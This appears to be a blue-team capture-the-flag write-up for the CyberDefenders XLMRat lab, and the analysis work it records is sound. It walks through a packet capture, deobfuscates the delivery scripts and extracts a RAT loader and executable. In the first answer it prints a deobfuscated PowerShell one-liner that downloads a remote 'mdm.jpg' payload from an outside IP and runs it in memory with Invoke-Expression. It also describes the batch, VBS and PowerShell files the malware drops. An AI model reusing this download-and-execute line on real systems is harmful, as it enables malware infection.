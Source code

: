 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that get concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)

### 2.  
Which hosting provider owns the associated IP address?
---

Using a web site like https://whois.domaintools.com/ shows the hosting provider name.

![image](https://github.com/user-attachments/assets/bd612ade-da08-4bc9-9dff-108e6e7c696e)

### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables with some PowerShell and VBS code.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  

![image](https://github.com/user-attachments/assets/704145a1-65f9-4ed7-bc55-6f53e6a4fb87)

Create a simple PowerShell script to convert both HEX values to executables.

![image](https://github.com/user-attachments/assets/33894fb9-3ff8-446f-8a38-8a1c6968e6b2)

Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		

![image](https://github.com/user-attachments/assets/91988140-e6d6-4e92-8c7f-8bb3dc715949)

Get the SHA256 of the Stub.exe file as this is the malware executable

![image](https://github.com/user-attachments/assets/0d421874-af85-4e08-a789-8e78e273b443)

### 4.  
What is the malware family label based on Alibaba?
---


### 5.  What is the timestamp of the malware's creation?
---


### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

We can grab the portion of LOLBin code and run it independently giving us the path.

![image](https://github.com/user-attachments/assets/13cc40ff-696e-48e3-b7a6-887eeb74c973)

### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---

	-The malware creates a PowerShell script (conted.ps1) containing the 2 HEX variables and loads NewPE2.dll
	-Then creates a bat file (conted.bat) which uses powershell.exe to run the ps1 file.
	-Finally creating a .vbs (conted.vbs) which leverages WScript.shell to run conted.bat

![image](https://github.com/user-attachments/assets/f4c95d80-08c0-4a0f-9bd6-1658b410fe33)
![image](https://github.com/user-attachments/assets/750c2c1c-7c0a-4c1b-af10-8c002f41ce4c)
























